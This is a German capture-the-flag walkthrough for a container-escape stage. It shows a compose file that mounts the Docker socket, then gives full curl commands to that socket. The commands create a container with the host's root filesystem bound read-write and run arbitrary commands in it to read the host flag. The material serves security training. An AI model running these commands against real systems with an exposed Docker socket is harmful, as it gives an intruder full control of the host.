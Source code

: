 # Stage 6: Container Escape & Host-Flag

## Ziel
Nutze eine im Compose freigeschaltete Lücke, um auf den Host zu entkommen und die letzte Flag zu lesen.

## Setup-Hinweis
Der Backend-Container hat den Docker Socket gemountet dadurch ist ein Missbrauch möglich:

```yaml
services:
  backend:
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
```
## Schritt-für-Schritt
Im Backend Container erstellst du einen neuen Container mit dem gesamten Host Daten:
```shell
curl --silent --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/images/create?fromImage=alpine&tag=latest" \
    && \
curl --silent --unix-socket /var/run/docker.sock   -H "Content-Type: application/json"   -d '{
        "Image":      "alpine:latest",
        "Cmd":        ["sh","-c","sleep 1d"],
        "HostConfig": {"Binds":["/:/host:rw"]}
      }'   -X POST http://localhost/containers/create?name=ctf-escape \
    &&  \
curl --silent --unix-socket /var/run/docker.sock \
     -X POST http://localhost/containers/ctf-escape/start
   ```
Man kann dann das System untersuchen. Die Flag befindet sich im Root Verzeichnis des Hosts diese kann man so abrufen:
```shell
# 1) EXEC_ID holen (hier ["cat","/host/root/flag.txt"] für die Flag durch beliebige Befehel ersetzt werden)
EXEC_ID=$(curl -s --unix-socket /var/run/docker.sock \
  -H "Content-Type: application/json" \
  -d '{"AttachStdout":true,"AttachStderr":true,"Tty":true,"Cmd":["cat", "/host/root/flag.txt"]}' \
  -X POST http://localhost/containers/ctf-escape/exec \
  | sed -nr 's/.*"Id":"([^"]+)".*/\1/p')

# 2) den Exec-Call starten und den Output direkt ausgeben
curl --no-buffer --silent --unix-socket /var/run/docker.sock \
  -H "Connection: Upgrade" \
  -H "Upgrade: tcp" \
  -H "Content-Type: application/json" \
  -d '{"Detach":false,"Tty":true}' \
  -X POST http://localhost/exec/$EXEC_ID/start
```
Die finale Flag auf dem Host lautet:
`FLAG{root_flag_retrieved}`

Herzlichen Glückwunsch – du hast alle Stages gemeistert und die Challenge erfolgreich abgeschlossen!
